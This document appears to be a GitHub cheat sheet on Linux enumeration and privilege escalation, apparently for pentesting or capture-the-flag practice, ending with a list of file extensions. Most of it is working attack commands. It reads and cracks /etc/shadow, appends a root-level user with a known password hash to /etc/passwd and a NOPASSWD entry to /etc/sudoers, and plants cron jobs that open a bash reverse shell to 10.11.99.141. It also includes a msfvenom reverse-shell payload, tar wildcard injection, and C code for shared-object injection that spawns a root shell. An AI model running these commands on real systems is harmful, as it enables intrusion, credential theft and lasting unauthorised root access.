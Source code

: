 # Enumeration ✅📚
## Basic-Enumeration ✅
```bash
id
sudo -V
sudo -l
history
uname -a
bash --version

cat ~/.bashrc
cat ~/.bash_history
cat ~/.bash_profile
cat /proc/version (Linux kernel version)
cat /etc/issue (Linux distribution version) 
cat /etc/*-release (Linux distribution version)

cat /etc/hosts
cat /etc/passwd
cat /etc/shadow
cat /etc/shells
cat /etc/sudoers
cat /etc/crontab

ls -ltrh /etc/hosts
ls -ltrh /etc/passwd
ls -ltrh /etc/shadow
ls -ltrh /etc/crontab
ls -ltrh /etc/sudoers

find / -type f -name "*.log" 2>/dev/null
find / -type f -name "*.bak" 2>/dev/null
find / -type f -name "*.conf" 2>/dev/null 

searchsploit <protocol> <version>
```
## Tools-For-Enumeration ✅
[LinEnum](https://github.com/rebootuser/LinEnum)

[PEASS-ng](https://github.com/peass-ng/PEASS-ng)

[linux-exploit-suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)

[linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2)

## Network-Enumeration ✅
```bash
last
lsof -i
lsof -i :80
ss -tulpn
netstat -antp
netstat -antup
netstat -tulpn
grep 80 /etc/services
```
## Users_Enumeration ✅
```bash
who | wc -l
users | wc -w
cat /etc/passwd
awk -F: '$3 >= 1000 {print $1}' /etc/passwd | wc -l
```
## SUID_SGID_Capabilities_Files_enumeration ✅
```
getcap -r / 2>/dev/null
find / -perm -02000 -ls 2>/dev/null
find / -perm -04000 -ls 2>/dev/null
find / -type f \( -perm -4000 -o -perm -2000 \) -ls 2> /dev/null
```
## Metasploit-Command-Enumeration ✅
```bash
set --global LHOST 10.11.99.141
run post/windows/manage/enable_rdp # open and enable windows rdp  
run post/multi/recon/local_exploit_suggester
```

# Privilege-Escalation ✅📚

## Weak File Permissions ✅
```bash
cat /etc/shadow
unshadow /etc/passwd /etc/shadow > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```
### Writable /etc/shadow OR /etc/passwd ✡️
```bash
openssl passwd <password>
mkpasswd -m sha-512 <new-password>
openssl passwd -1 -salt <username> <password>

change root password from /etc/shadow
Format change to /etc/shadow = root:<password>:19966:0:99999:7:::

Add to end the /etc/passwd
Format add to /etc/passwd = <username>:<passwordhash>:0:0:root:/root:/bin/bash

echo 'mobin:$1$8VO3cUZu$als/bleGjZ3SVjE5EGzvh/:0:0:root:/root:/bin/bash' >> /etc/passwd
echo 'mobin:$6$/LuWBv7L4QbfG1kf$pb0sFxOLHKiMNiAr2vMdpRc2e8mljxoUlm33fY6KEXLzcH7K51zegdnOYygurWuP/2.KW3eQvcBHXBn9/Jqnj0:0:0:root:/root:/bin/bash' >> /etc/passwd
password=Mobin@

su <username> ( Switch to new root user )
```
[editing-etc-passwd-file-for-privilege-escalation](http://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation/)
### Writable /etc/sudoers ✡️
```bash
echo 'ali ALL=(ALL:ALL) NOPASSWD:ALL' >> /etc/sudoers
useradd ali && (echo -e 'Mobin@\nMobin@' | passwd ali) && (echo "ali ALL=(ALL:ALL) NOPASSWD:ALL" >> /etc/sudoers)
```
### /etc/crontab ✡️
#### Cron Jobs - File Permissions 🔆
```bash
cat /etc/crontab
locate overwrite.sh
echo '* * * * * root overwrite.sh' >> /etc/crontab
echo '#!/bin/bash' > /usr/local/bin/overwrite.sh
echo 'bash -i >& /dev/tcp/10.11.99.141/4444 0>&1' >> /usr/local/bin/overwrite.sh
```
#### Cron Jobs - PATH Environment Variable 
```bash
# Check "PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin" code in crontab file.
# If there is a writable directory in "PATH=", inside that directory we create a file with the same name as "overwrite.sh" file and write reverseshell inside it.

echo '#!/bin/bash' > /home/user/overwrite.sh
echo 'bash -i >& /dev/tcp/10.11.99.141/4444 0>&1' >> /home/user/overwrite.sh
```
#### Cron Jobs - Wildcards 🔆
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf # our kali
chmod +x /home/user/shell.elf # target machine
touch /home/user/--checkpoint=1 # target machine
touch /home/user/--checkpoint-action=exec=shell.elf # target machine
nc -nvlp 4444 # our kali
```
## SUID_SGID ✅
### Known Exploits ✡️
```bash
searchsploit <name app>
```
### Shared Object Injection ✡️
```bash
file /usr/local/bin/suid-so # setuid setgid ELF 64-bit LSB executable
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
mkdir /home/user/.config
nano /tmp/libcalc.c ⬇️⬇️⬇️⬇️
-------------------
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        setuid(0);
        system("/bin/bash -p");
}
-------------------
gcc -shared -fPIC -o /home/user/.config/libcalc.so /tmp/libcalc.c
```

### Environment Variables ✡️
```bash

```
### Abusing Shell Features (#1) ✡️
```bash

```
### Abusing Shell Features (#2) ✡️
```bash

```

#### The following list shows the most commons file extensions for linux: ❗️☪️
```bash
.a   : a static library ;
.au    : an audio file ;
.bin :    a) a binary image of a CD (usually a .cue file is also included); b) represents that the file is binary and is meant to be executed ;
.bz2 :    A file compressed using bzip2 ;
.c :    A C source file ;
.conf :  A configuration file. System-wide config files reside in /etc while any user-specific configuration will be somewhere in the user’s home directory ;
.cpp :  A C++ source file ;
.deb :  a Debian Package;
.diff :   A file containing instructions to apply a patch from a base version to another version of a single file or a project (such as the linux kernel);
.dsc:   a Debian Source information file ;
.ebuild : Bash script used to install programs through the portage system. Especially prevalent on Gentoo systems;
.el :  Emacs Lisp code file;
.elc :  Compiled Emacs Lisp code file;
.gif :    a graphical or image file;
.h :a C or C++ program language header file;
.html/.htm  :   an HTML file;
.iso :    A image (copy) of a CD-ROM or DVD in the ISO-9660 filesystem format;
.jpg :    a graphical or image file, such as a photo or artwork;
.ko :    The kernel module extension for the 2.6.x series kernel;
.la :    A file created by libtool to aide in using the library;
.lo :    The intermediate file of a library that is being compiled;
.lock :    A lock file that prevents the use of another file;
.log :    a system or program’s log file;
.m4 :    M4 macro code file;
.o :    1) The intermediate file of a program that is being compiled ; 2) The kernel module extension for a 2.4 series kernel ; 3)a program object file;
.pdf :    an electronic image of a document;
.php :     a PHP script;
.pid :    Some programs write their process ID into a file with this extention;
.pl :    a Perl script;
.png :    a graphical or image file;
.ps :    a PostScript file; formatted for printing;
.py :    a Python script;
.rpm :    an rpm package. See Distributions of Linux for a list of distributions that use rpms as a part of their package management system;
.s :    An assembly source code file;
.sh :    a shell script;
.so :     a Shared Object, which is a shared library. This is the equivalent form of a Windows DLL file;
.src  :    A source code file. Written in plain text, a source file must be compiled to be used;
.sfs :    Squashfs filesystem used in the SFS Technology;
.tar.bz2 , tbz2, tar.gz :     a compressed file per File Compression;
.tcl :    a TCL script;
.tgz :     a compressed file per File Compression. his may also denote a Slackware binary or source package;
.txt :    a plain ASCII text file;
.xbm :    an XWindows Bitmap image;
.xpm :     an image file;
.xcf.gz, xcf :  A GIMP image (native image format of the GIMP);
.xwd :    a screenshot or image of a window taken with xwd;
.zip :extension for files in ZIP format, a popular file compression format;
.wav :    an audio file.
```
